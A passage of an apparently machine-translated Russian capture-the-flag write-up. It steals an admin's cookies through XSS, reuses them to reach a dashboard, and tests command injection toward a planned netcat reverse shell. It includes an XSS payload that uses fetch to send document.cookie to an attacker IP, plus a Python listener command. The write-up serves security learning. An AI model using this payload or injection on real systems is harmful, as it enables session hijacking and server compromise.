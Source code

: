 теперь мы можем красть файлы cookie администратора через xss, это довольно просто, вот полезная нагрузка, которую я использовал

```js
<img src=x onerror=fetch('http://{you-ip}/'+document.cookie);>
```

вам также нужно получить файлы cookie. Я собираюсь использовать простой http-сервер на Python, но используйте любой прослушиватель, который захотите.

```python
python3 -m http.server 80
```

когда он будет отправлен администратору, он вернет его файлы cookie, и это сработало!

![[Pasted image 20240427220121.png]]

![[Pasted image 20240428015421.png]]

как вы можете видеть, мы получили файл cookie, теперь давайте попробуем использовать его в параметре is_Admin и снова зайдем на панель управления (dashboard). Мы поменяли заголовок is_Admin в теле запроса и получили такой ответ:

![[Pasted image 20240427220250.png]]

Или просто в браузере можете поменять cookie, но я предпочитаю burp)

Изменение даты, похоже, ничего не меняет. Я перехватил отрыжку и попробовал несколько уколов для обратной оболочки:

![[Pasted image 20240427220734.png]]

Хм, безуспешно. Возможно, общие команды работают?

![[Pasted image 20240427220747.png]]

Кажется, если предположить, что мы dvir? Давайте попробуем другие.

![[Pasted image 20240427220855.png]]

как вы можете видеть, он вернул рабочий каталог. 

![[Pasted image 20240427220911.png]]

давайте попробуем обратную оболочку и вспомним, что это машина с Linux. ОООО, может быть, мы сможем отправить netcat в report.sh? Во-первых, я хочу попробовать создать файл, прежде чем слишком разволноваться.

![[Pasted image 20240427233345.png]]

Итак, тест mkdir сработал.

Хорошо, давайте попробуем… Возможно, потребуется перезагрузить сервер, если что-то пойдет не так!

![[Pasted image 20240427233502.png]]
